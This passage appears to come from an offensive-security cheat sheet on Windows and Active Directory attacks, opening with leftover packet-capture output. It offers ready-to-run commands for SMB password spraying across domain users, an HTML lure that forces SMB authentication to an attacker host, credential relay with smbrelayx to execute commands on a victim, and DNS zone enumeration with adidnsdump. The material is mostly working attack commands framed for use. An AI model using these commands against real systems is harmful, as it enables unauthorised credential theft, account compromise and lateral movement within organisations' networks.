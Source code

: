 Processing...

Packets total:     60
Packet drop count: 0
Packets formatted: 60
Formatted file:    RoseSecurity-pktmon.pcapng
```
## SMB Password Guessing:

Create list of domain users

```
C:\> net user /domain > users.txt
```

Create password list 

```
C:\> notepad pass.txt
```

Start spraying!

```
C:\> @FOR /F %p in (pass.txt) DO @FOR /F %n in (users.txt) DO @net use \\SERVERIP\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\SERVERIP\IPC$ > NUL
```

## SMB Lateral Movement:

Check if SMB signing is disabled on the endpoint:

```
nmap -p 445 <Victim IP> -sS --script smb-security-mode
```

Force authentication by crafting a HTML or file of your choice:

```
<html>
    <h1>The Dietary Benefits of Eating Ben and Jerry's Phish Food</h1>
    <img src="file://<Compromised Host>/download.jpg">
</html>
```

Fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to the victim and will attempt to execute the command, ipconfig, on the end host:

```
smbrelayx.py -h <Victim IP> -c "ipconfig"
```

## Active Directory DNS Enumeration:

The tool ```adidnsdump``` enables enumeration and exporting of all DNS records in the zone for recon purposes of internal networks.

```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

adidnsdump -u domain_name\\username ldap://10.10.10.10 -r
cat records.csv
```


[VICTIM]: PS C:\Users\Victim\Documents>
